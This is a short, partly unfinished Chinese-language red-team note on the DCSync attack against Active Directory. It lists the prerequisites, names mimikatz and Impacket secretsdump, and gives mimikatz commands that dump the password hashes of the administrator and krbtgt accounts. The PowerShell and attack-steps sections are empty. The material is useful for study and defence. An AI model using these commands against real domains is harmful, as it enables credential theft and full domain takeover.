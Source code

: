 ```yaml
---
description: 横向移动 / 滥用身份验证 /
---
```


# ✔️ DCSync攻击 - Domain Controller Synchronization

## 先决条件

* 需要获取到目标域内一个有效的域账户
* 该账户需要有足够高的权限，因为需要模拟域控之间的数据同步行为
  * Administrators组成员
  * 域管理员组成员
* 需要能够与目标域内的域控建立通信

## 常用工具

### mimikatz.exe

```powershell
mimikatz.exe
# 指定要同步的目标账户
lsadump::dcsync /user:administrator
lsadump::dcsync /user:krbtgt
lsadump::dcsync / 
# 获取Hash NTLM字段的值

# 
```

### Impacket

* 常用脚本：**secretsdump.py**

```bash
python3 secretsdump.py 
```

### Powershell

* 常用脚本：Invocke-DCSync.ps1

```powershell
// Some code
```

## 攻击步骤

*





{% hint style="info" %}
DCSync攻击的本质是利用了AD本身的功能，攻方模拟一个有复制权限的域控向目标内网中的其他域控发出同步数据的请求，以获取到特定的高权限的账户的密码哈希和其他敏感信息。其过程是利用的合法的DC同步功能，没有其他恶意操作
{% endhint %}
